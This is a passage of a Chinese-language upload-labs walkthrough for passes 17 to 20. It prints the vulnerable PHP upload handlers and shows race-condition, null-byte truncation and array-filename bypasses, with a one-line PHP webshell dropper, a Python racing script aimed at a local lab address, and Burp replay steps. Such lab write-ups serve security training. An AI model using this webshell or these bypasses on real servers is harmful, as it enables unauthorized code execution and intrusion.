  $msg = null;
  
  if(isset($_POST['submit'])){
      $ext_arr = array('jpg','png','gif');
      $file_name = $_FILES['upload_file']['name'];
      $temp_file = $_FILES['upload_file']['tmp_name'];
      $file_ext = substr($file_name,strrpos($file_name,".")+1);
      $upload_file = UPLOAD_PATH . '/' . $file_name;
  
      if(move_uploaded_file($temp_file, $upload_file)){
          if(in_array($file_ext,$ext_arr)){
               $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
               rename($upload_file, $img_path);
               $is_upload = true;
          }else{
              $msg = "只允许上传.jpg|.png|.gif类型文件！";
              unlink($upload_file);
          }
      }else{
          $msg = '上传出错！';
      }
  }
  ```

- 分析源码可以发现，这里先讲文件上传到服务器上面，然后进行重命名，当我们的请求并发数量比较快的时候就可以在对方没有重命名完成时访问成功，结合一句话生成木马就可以get服务器

- ```
  <?php fputs(fopen('upshell.php','w'),'<?php eval($_REQUEST[cmd]);?>');?> #生成一句话木马的木马
  ```

- 首先编写一个脚本，能一直访问上传的文件，造成条件竞争

- ```python
  import requests
  url = 'http://192.168.2.195/upload-labs/upload/17.php' #竞争文件路径
  url2 = 'http://192.168.2.195/upload-labs/upload/upshell.php' #生成的shell路径
  while True:
      res = requests.get(url)
      print(res.status_code)
      if res.status_code == 200:
          res2 = requests.get(url2)
          if res2.status_code == 200:
              break
      
  print('is ok')
  ```

- 使用bp抓取上传文件的包，然后设置一个变量，这个变量可以不存在，为的是bp能够持续重放

- 

- 设置好线程数以及线程池

- 

- 先运行python脚本

- ```
  pythno3 get.py
  ```

- 然后在bp中开启重放攻击

- 

- 接着等待python运行提示即可

- 

- 访问目标生成的文件

- 

## 2.2-pass-18-条件竞争

- 解析漏洞原理：Apache 解析文件的规则是从右到左开始判断解析,如果后缀名为不可识别文件解析,就再往左判断。比如 test.php.owf.rar “.owf”和”.rar” 这两种后缀是apache不可识别解析,apache就会把wooyun.php.owf.rar解析成php。

- ```php
  $is_upload = false;
  $msg = null;
  
  if(isset($_POST['submit'])){
      $ext_arr = array('jpg','png','gif');
      $file_name = $_FILES['upload_file']['name'];
      $temp_file = $_FILES['upload_file']['tmp_name'];
      $file_ext = substr($file_name,strrpos($file_name,".")+1);
      $upload_file = UPLOAD_PATH . '/' . $file_name;
  
      if(move_uploaded_file($temp_file, $upload_file)){
          if(in_array($file_ext,$ext_arr)){
               $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
               rename($upload_file, $img_path);
               $is_upload = true;
          }else{
              $msg = "只允许上传.jpg|.png|.gif类型文件！";
              unlink($upload_file);
          }
      }else{
          $msg = '上传出错！';
      }
  }
  ```

- 分析源码这是一个白名单，还是先上传文件再检测文件后缀是否在白名单内，存在则上传成功，反之则失败,这里我利用了上一关的条件竞争还是一样可以，步骤和上面一样直接放结果吧
- 

## 2.2-pass-19-0x00截断

- 这里的截断和第九关的一模一样，就是截断位置不一样那个而已

- ```php
  $is_upload = false;
  $msg = null;
  if (isset($_POST['submit'])) {
      if (file_exists(UPLOAD_PATH)) {
          $deny_ext = array("php","php5","php4","php3","php2","html","htm","phtml","pht","jsp","jspa","jspx","jsw","jsv","jspf","jtml","asp","aspx","asa","asax","ascx","ashx","asmx","cer","swf","htaccess");
  
          $file_name = $_POST['save_name'];
          $file_ext = pathinfo($file_name,PATHINFO_EXTENSION);
  
          if(!in_array($file_ext,$deny_ext)) {
              $temp_file = $_FILES['upload_file']['tmp_name'];
              $img_path = UPLOAD_PATH . '/' .$file_name;
              if (move_uploaded_file($temp_file, $img_path)) { 
                  $is_upload = true;
              }else{
                  $msg = '上传出错！';
              }
          }else{
              $msg = '禁止保存为该类型文件！';
          }
  
      } else {
          $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
      }
  }
  ```

- 可以看出这是一个黑名单，文件名称通过POST传参获取，将临时文件移动的时候也没有修改名称，因此我们只需要在变量的位置做一个0x00截断就可以了
- 
- 
- 
- 访问时记得修改文件名
- 

## 2.2-pass-20-0x00+数组绕过

- post请求的时候可以上传数组，只需要将变量名修改为 name[0]的形式即可

- 分析源码

- ```php
  $is_upload = false;
  $msg = null;
  if(!empty($_FILES['upload_file'])){
      //检查MIME
      $allow_type = array('image/jpeg','image/png','image/gif');
      if(!in_array($_FILES['upload_file']['type'],$allow_type)){
          $msg = "禁止上传该类型文件!";
      }else{
          //检查文件名
          $file = empty($_POST['save_name']) ? $_FILES['upload_file']['name'] : $_POST['save_name'];
          if (!is_array($file)) {
              $file = explode('.', strtolower($file));
          }
  
          $ext = end($file);
          $allow_suffix = array('jpg','png','gif');
          if (!in_array($ext, $allow_suffix)) {
              $msg = "禁止上传该后缀文件!";
          }else{
              $file_name = reset($file) . '.' . $file[count($file) - 1];
              $temp_file = $_FILES['upload_file']['tmp_name'];
              $img_path = UPLOAD_PATH . '/' .$file_name;
              if (move_uploaded_file($temp_file, $img_path)) {
                  $msg = "文件上传成功！";
                  $is_upload = true;
              } else {
                  $msg = "文件上传失败！";
              }
          }
      }
  }else{
      $msg = "请选择要上传的文件！";
  }
  ```

- 检查MIME文件名是否在白名单内，如果在则继续向下执行
- 如果save_name为空则返回文件名，如果不为空返回save_name变量
- 检查save_name是否为数组，如果是则不分割$file为数组
- 检查最后一个变量名是否在白名单内，如果在则继续向下执行
- 此时如果我们将第一个save_name[0] = shell.php%00/,第二个为save_name[1]=jpg
- reset($file) = shell.php%00/,$file[count($file) - 1] = jpg
- 此时上传上去的文件名应该为：shell.php%00/.jpg,这里的%00表示十六进制0x00，为了方便表示才这么写的
- 由于系统解析文件时遇到0x00会自动停止解析，所以文件名称此时为shell.php
- 为什么要在0x00后面加上一个/？
  - 为了让0x00拼接在文件内，如果0x00后面不加任何东西则不会拼接在内，也就会导致绕过失败，如果拼接空格也是也可以的
- 
- 
- 提示文件上传成功
- 
- 执行成功
- 至此upload-labs就结束了
- 总结建议：
  - 学习时看到代码不要慌，不懂的函数一个个去查就可以了，官网都有，写的也很详细，理解意思之后通过自己搭建的服务器写一个简易版的函数测试，看看是否符合自己的预期，如果符合则说明掌握了该函数
  - 有些知识点比较难啃，其实大多时候是因为你精力不够导致的，适当的休息一下补充补充糖分，心理学上曾经看到过，当人们的心情较为好的时候，人的接受能力会大大增加，也就是学习能力大大增加，因此充分的休息让自己身心愉悦是必要的
  - 如果看到某些东西很蒙蔽，一头雾水也不要慌张，想一想自己确实了什么知识点，然后一个个去查，总之多实践就对了！！！